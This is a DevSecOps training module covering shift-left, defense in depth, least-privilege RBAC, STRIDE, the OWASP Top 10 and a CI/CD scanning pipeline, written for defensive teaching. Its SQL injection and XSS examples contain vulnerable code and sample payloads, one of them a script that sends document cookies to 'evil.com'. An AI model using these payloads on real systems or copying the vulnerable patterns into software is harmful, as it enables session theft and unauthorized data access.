# Module 01: DevSecOps Fundamentals

## Learning Objectives

By the end of this module, you will be able to:
- Understand the evolution from DevOps to DevSecOps
- Apply security principles throughout the software development lifecycle
- Implement defense in depth strategies
- Understand common attack vectors and threat modeling
- Apply the principle of least privilege

## Introduction to DevSecOps

DevSecOps integrates security practices within the DevOps process. Security is no longer a gate at the end of development but a shared responsibility throughout the entire CI/CD pipeline.

### The Shift Left Philosophy

**Traditional model**

<!-- figure: generated from the Mermaid below by _shared/diagrams/embed-figures.py — do not edit the image -->


<details>
<summary>Diagram source (Mermaid)</summary>



</details>

**DevSecOps — shift left**

<!-- figure: generated from the Mermaid below by _shared/diagrams/embed-figures.py — do not edit the image -->


<details>
<summary>Diagram source (Mermaid)</summary>



</details>

"Shift left" is not a slogan about being early — it is a statement about **cost**. A flaw caught by a
pre-commit hook costs the developer thirty seconds. The same flaw caught by a penetration test costs
a sprint, a change-control conversation, and someone's weekend.

### Cost of Security Defects

The later a security issue is found, the more expensive it is to fix:

| Stage | Relative Cost to Fix |
|-------|---------------------|
| Design | 1x |
| Development | 5x |
| Testing | 10x |
| Production | 100x |
| Post-breach | 1000x+ |

## Core Security Principles

### CIA Triad

<!-- figure: generated from the Mermaid below by _shared/diagrams/embed-figures.py — do not edit the image -->


<details>
<summary>Diagram source (Mermaid)</summary>



</details>

**Confidentiality:**
- Encryption at rest and in transit
- Access controls and authentication
- Data classification and handling

**Integrity:**
- Checksums and digital signatures
- Version control and audit logs
- Input validation

**Availability:**
- Redundancy and fault tolerance
- DDoS protection
- Backup and disaster recovery

### Defense in Depth

Multiple layers of security controls:

**Defense in depth**

| Layer | Controls |
|---|---|
| **1 — Perimeter** | Firewall · WAF · DDoS protection · CDN |
| **2 — Network** | Segmentation · VPN · IDS/IPS · mTLS |
| **3 — Host** | OS hardening · patching · EDR · host firewall |
| **4 — Application** | SAST · DAST · input validation · authn and authz |
| **5 — Data** | Encryption · tokenisation · DLP · access control |

Each layer assumes the one outside it has already failed. That assumption is the point: any single
control being bypassed should be a finding in a report, not an incident with a customer on the phone.

Layer 5 is the one that decides how bad a breach is. Everything above it buys time; encryption and
tokenisation decide whether the attacker who got through all of it has anything worth taking.

### Principle of Least Privilege

Grant only the minimum permissions required:

```yaml
# Bad: Overly permissive
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: app-admin
subjects:
  - kind: ServiceAccount
    name: my-app
    namespace: default
roleRef:
  kind: ClusterRole
  name: cluster-admin  # Too permissive!
  apiGroup: rbac.authorization.k8s.io

# Good: Minimal permissions
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: app-role
  namespace: my-app-namespace
rules:
  - apiGroups: [""]
    resources: ["configmaps"]
    resourceNames: ["app-config"]
    verbs: ["get", "watch"]
  - apiGroups: [""]
    resources: ["secrets"]
    resourceNames: ["app-secrets"]
    verbs: ["get"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: app-role-binding
  namespace: my-app-namespace
subjects:
  - kind: ServiceAccount
    name: my-app
    namespace: my-app-namespace
roleRef:
  kind: Role
  name: app-role
  apiGroup: rbac.authorization.k8s.io
```

## Threat Modeling

### STRIDE Model

| Threat | Description | Mitigation |
|--------|-------------|------------|
| **S**poofing | Pretending to be someone else | Authentication |
| **T**ampering | Modifying data | Integrity checks |
| **R**epudiation | Denying actions | Audit logs |
| **I**nformation Disclosure | Exposing data | Encryption |
| **D**enial of Service | Making service unavailable | Rate limiting |
| **E**levation of Privilege | Gaining unauthorized access | Authorization |

### Threat Modeling Process

<!-- figure: generated from the Mermaid below by _shared/diagrams/embed-figures.py — do not edit the image -->


<details>
<summary>Diagram source (Mermaid)</summary>



</details>

### Data Flow Diagram Example

<!-- figure: generated from the Mermaid below by _shared/diagrams/embed-figures.py — do not edit the image -->


<details>
<summary>Diagram source (Mermaid)</summary>



</details>

## OWASP Top 10

### Web Application Security Risks

| # | Risk | Description | Mitigation |
|---|------|-------------|------------|
| 1 | Broken Access Control | Unauthorized access to resources | Enforce authorization |
| 2 | Cryptographic Failures | Weak encryption, exposed data | Use strong crypto |
| 3 | Injection | SQL, NoSQL, Command injection | Input validation |
| 4 | Insecure Design | Missing security controls | Threat modeling |
| 5 | Security Misconfiguration | Default credentials, verbose errors | Hardening |
| 6 | Vulnerable Components | Outdated libraries | SCA scanning |
| 7 | Authentication Failures | Weak credentials, session issues | MFA, secure sessions |
| 8 | Software/Data Integrity | Untrusted updates, CI/CD compromise | Code signing |
| 9 | Security Logging Failures | Missing audit trails | Comprehensive logging |
| 10 | SSRF | Server-side request forgery | Input validation |

### SQL Injection Example

```python
# Vulnerable code
def get_user(username):
    query = f"SELECT * FROM users WHERE username = '{username}'"
    return db.execute(query)

# Attack: username = "admin' OR '1'='1"
# Results in: SELECT * FROM users WHERE username = 'admin' OR '1'='1'

# Secure code using parameterized queries
def get_user_secure(username):
    query = "SELECT * FROM users WHERE username = %s"
    return db.execute(query, (username,))
```

### Cross-Site Scripting (XSS) Example

```python
# Vulnerable code
@app.route('/search')
def search():
    query = request.args.get('q')
    return f"<h1>Search results for: {query}</h1>"

# Attack: q = "<script>document.location='http://evil.com/?c='+document.cookie</script>"

# Secure code using escaping
from markupsafe import escape

@app.route('/search')
def search_secure():
    query = escape(request.args.get('q'))
    return f"<h1>Search results for: {query}</h1>"
```

## Security in the CI/CD Pipeline

### DevSecOps Pipeline

<!-- figure: generated from the Mermaid below by _shared/diagrams/embed-figures.py — do not edit the image -->


<details>
<summary>Diagram source (Mermaid)</summary>

```mermaid
%%{init: {'theme':'base','themeVariables':{'fontFamily':'Helvetica, Arial, sans-serif','fontSize':'13px','primaryColor':'#ffffff','primaryTextColor':'#2d3436','primaryBorderColor':'#9aa3ab','lineColor':'#9aa3ab','textColor':'#2d3436','clusterBkg':'#fbfcfd','clusterBorder':'#d4dae0','edgeLabelBackground':'#ffffff','tertiaryColor':'#eef4fb'},'flowchart':{'curve':'basis','padding':14,'nodeSpacing':42,'rankSpacing':58}}}%%
flowchart TB
  classDef default fill:#ffffff,stroke:#9aa3ab,stroke-width:1.3px,color:#2d3436
  classDef n    fill:#ffffff,stroke:#9aa3ab,stroke-width:1.3px,color:#2d3436
  classDef crit fill:#eef4fb,stroke:#2f6fb8,stroke-width:1.8px,color:#1b3a5c
  classDef data fill:#f4f7fa,stroke:#9aa3ab,stroke-width:1.3px,color:#2d3436
  classDef mut  fill:#ffffff,stroke:#cfd6dc,stroke-width:1.1px,color:#7a8288
  classDef warn fill:#fdf0ec,stroke:#c0522d,stroke-width:1.6px,color:#8a3a1e
  subgraph C["Code"]
    direction TB
    C0["Code"]
    C1["Pre-commit hooks"]
    C2["Secret detection"]
    C0 --> C1 --> C2
  end
  subgraph B["Build"]
    direction TB
    B0["Build"]
    B1["SAST"]
    B2["SCA"]
    B0 --> B1 --> B2
  end
  subgraph T["Test"]
    direction TB
    T0["Test"]
    T1["DAST"]
    T2["IAST"]
    T0 --> T1 --> T2
  end
  subgraph D["Deploy"]
    direction TB
    D0["Deploy"]
    D1["Runtime security"]
    D2["RASP"]
    D0 --> D1 --> D2
  end
  C ==> B ==> T ==> D
  class C0,B0,T0,D0 n
  class C1,C2 crit
  class B1,B2 crit
  class T1,T2 n
  class D1,D2 n
  linkStyle 8,9,10 stroke:#2f6fb8,stroke-width:2px

%% Secret detection sits at the leftmost position for a reason: it is the only
%% control on this diagram that cannot be applied retroactively. A credential
%% that reaches the repository is compromised from that moment, and removing
%% the commit does not change it.
```

</details>

### Security Scanning Types

| Type | Full Name | When | What |
|------|-----------|------|------|
| SAST | Static Application Security Testing | Build | Source code analysis |
| SCA | Software Composition Analysis | Build | Dependency vulnerabilities |
| DAST | Dynamic Application Security Testing | Test | Running application |
| IAST | Interactive Application Security Testing | Test | Runtime code analysis |
| RASP | Runtime Application Self-Protection | Production | Runtime protection |

### Example: GitHub Actions Security Pipeline

```yaml
name: Security Pipeline
on:
  push:
    branches: [main, develop]
  pull_request:
    branches: [main]

jobs:
  security-scan:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      # Secret scanning
      - name: Detect secrets
        uses: trufflesecurity/trufflehog@main
        with:
          path: ./
          base: ${{ github.event.repository.default_branch }}

      # SAST scanning
      - name: Run Semgrep
        uses: returntocorp/semgrep-action@v1
        with:
          config: >-
            p/security-audit
            p/owasp-top-ten

      # Dependency scanning (SCA)
      - name: Run Trivy vulnerability scanner
        uses: aquasecurity/trivy-action@master
        with:
          scan-type: 'fs'
          scan-ref: '.'
          severity: 'CRITICAL,HIGH'
          exit-code: '1'

  container-scan:
    runs-on: ubuntu-latest
    needs: security-scan
    steps:
      - uses: actions/checkout@v4

      - name: Build image
        run: docker build -t myapp:${{ github.sha }} .

      - name: Scan container image
        uses: aquasecurity/trivy-action@master
        with:
          image-ref: 'myapp:${{ github.sha }}'
          format: 'sarif'
          output: 'trivy-results.sarif'
          severity: 'CRITICAL,HIGH'

      - name: Upload Trivy scan results
        uses: github/codeql-action/upload-sarif@v2
        with:
          sarif_file: 'trivy-results.sarif'
```

## Security Metrics

### Key Security Metrics

```yaml
security_metrics:
  vulnerability_management:
    - name: "Mean Time to Remediate (MTTR)"
      description: "Average time to fix vulnerabilities"
      target: "< 7 days for critical"

    - name: "Vulnerability Density"
      description: "Vulnerabilities per 1000 lines of code"
      target: "< 1 per KLOC"

    - name: "Open Vulnerability Age"
      description: "Average age of open vulnerabilities"
      target: "< 30 days"

  security_coverage:
    - name: "Scan Coverage"
      description: "% of code/images scanned"
      target: "> 95%"

    - name: "Security Test Coverage"
      description: "% of security tests passing"
      target: "> 90%"

  incident_metrics:
    - name: "Security Incidents"
      description: "Number of security incidents"
      target: "Trending down"

    - name: "Mean Time to Detect (MTTD)"
      description: "Time to detect security issues"
      target: "< 24 hours"
```

## Summary

DevSecOps fundamentals establish the foundation for secure software delivery:

1. **Shift Left** - Integrate security early in the development process
2. **Defense in Depth** - Multiple layers of security controls
3. **Least Privilege** - Grant only necessary permissions
4. **Threat Modeling** - Systematically identify and address risks
5. **Continuous Security** - Automated security scanning in CI/CD

## Additional Resources

- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [NIST Cybersecurity Framework](https://www.nist.gov/cyberframework)
- [SANS CIS Controls](https://www.cisecurity.org/controls)
- [DevSecOps Manifesto](https://www.devsecops.org/)

## Next Module

Continue to [Module 02: Infrastructure Security](content-module-02-infrastructure-security.md) to learn about securing your infrastructure components.

<!-- feynman-check -->

---

## Feynman check

Close the file. Blank page, no notes. Explain each of these to a competent engineer who has never
used this tool — **under five minutes, no jargon you can't define on the spot:**

- Introduction to DevSecOps
- Core Security Principles
- Threat Modeling
- OWASP Top 10

**The gap is not what you forgot. It is where you used a word instead of a mechanism.**

| | |
|---|---|
| ✗ | *"We scan for vulnerabilities in the pipeline."* |
| ✓ | *"SAST reads source without running it, SCA resolves the dependency tree against an advisory database, and image scanning compares installed package versions to that same database. All three report what was known at build time — which is why the registry is re-scanned: the image does not change, the database does."* |

**Trace it:** A CVE published today against your base image → a blocked deploy. Name every component between the advisory and the refused `apply`.

Stop at the first component you cannot name. Reopen this file and read **only** that.

**Go deeper — only once the gap has a name:** the [SLSA threat model](https://slsa.dev/spec/v1.2/threats) — it names every point at which a build can be subverted, and most teams defend three of them.
Full list per domain: [`SOURCES.md`](../SOURCES.md#devsecops)

→ Protocol, the three levels of knowing, and worked examples: [`MASTERY.md`](../MASTERY.md)

<!-- /feynman-check -->
